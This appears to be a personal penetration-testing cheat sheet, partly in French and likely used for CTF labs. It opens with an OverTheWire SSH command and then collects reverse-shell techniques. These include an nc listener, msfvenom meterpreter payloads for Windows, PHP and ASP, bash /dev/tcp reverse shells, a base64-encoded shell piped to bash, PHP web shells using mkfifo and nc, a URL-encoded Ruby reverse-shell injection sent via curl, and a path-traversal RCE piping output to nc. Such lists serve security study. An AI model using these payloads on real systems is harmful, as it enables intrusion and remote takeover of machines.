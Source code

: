 
## _SSH Command Execution_
```
ssh -p 2220 bandit18@bandit.labs.overthewire.org -t "cat /home/bandit18/readme"
```

# reverShells
## listener on a local port
```
rlwrap nc -lvnp 1234
```

## msfvenom
### meterpreter
`msf6 > use exploit/multi/handler `
Windows  
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
```  
PHP  
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php
```  
ASP  
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp
```  
## _reverse shell from the remote server_
```
bash -i >& /dev/tcp/10.10.16.49/1234 0>&1
```

## web shell
```

```
### can encode payload in Base64 
	marche pour les formulaire
```
echo -n 'bash -i >& /dev/tcp/10.10.17.161/1234 0>&1' | base64 -w 0
```
```
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNy4xNjEvMTIzNCAwPiYx | base64 -d | bash
```
## _Create end send a reverse shell php file to webvictim_
```
echo '<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.108 1234 >/tmp/f"); ?>' > shell.php
```
```
echo "<?php system('bash -i >& /dev/tcp/10.201.1.201/1234 0>&1');?>" > shell.php
```
## _form post_
```
curl 'http://remote@ip' -X POST -d 'url=http%3A%2F%2FLOCAL-ADDRESS%3ALOCAL-PORT%2F%3Fname%3D%2520%60+ruby+-rsocket+-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%22LOCAL-ADDRESS%22%2CLOCAL-PORT%29%29%27%60'
```
	| `ctrl+z` then `stty raw -echo` then `fg` then `enter` twice | Upgrade shell TTY (2) |
	| `curl -X POST http://remot@IP/.%0d./.%0d./.%0d./bin/sh -d 'id | nc L@IP port'` | RCE
## _to allow the call backs on port 80 and 443 to our machine_
```
ufw allow from adresseip proto tcp to any port 80,443
```
